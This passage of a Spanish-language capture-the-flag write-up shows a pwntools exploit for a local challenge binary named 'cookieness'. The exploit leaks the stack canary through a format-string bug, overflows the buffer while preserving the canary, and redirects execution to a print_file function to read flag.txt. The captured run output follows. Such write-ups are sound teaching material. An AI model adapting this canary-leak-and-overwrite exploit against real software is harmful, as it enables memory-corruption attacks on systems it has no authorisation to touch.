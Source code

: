 Podemos usar cualquiera de las dos que no tienen un `?` al final. Y solo quedará construir el script.

```python
from pwn import *

print_file = 0x080491a6
flagtxt = 0x0804a008

# run the process
p = process("./cookieness")

# get the 11th stack variable (the canary/cookie)
p.send(b"%11$x\n")

# read the cookie from the abused string format vulnerability
cookie = p.readline(20).decode().split(', ')[1]
num = int(cookie, 16)
print("Cookie = " + hex(num))

# build the payload
payload = b"A" * 20
payload += p32(num) # get to the canary and overwrite it with itself
payload += b"B" * 12
payload += p32(print_file) # get to EIP and overwrite it with the print_file function
payload += b"C" * 4
payload += p32(flagtxt) # add an address that points to "flag.txt" to the stack as a parameter

# send the payload
p.sendline(payload)

# jackpot
print(p.recvall().decode())

p.close()
```

Y obtendríamos la flag.

```bash
└─$ python3 exploit.py  
[+] Starting local process './cookieness': pid 2417  
Cookie = 0x76d0fc00  
[+] Receiving all data: Done (81B)  
[*] Stopped process './cookieness' (pid 2417)  
  
Puedes leer flag.txt?  
Mostrando contenido de flag.txt: CTFUni{this_is_a_test_flag}
```
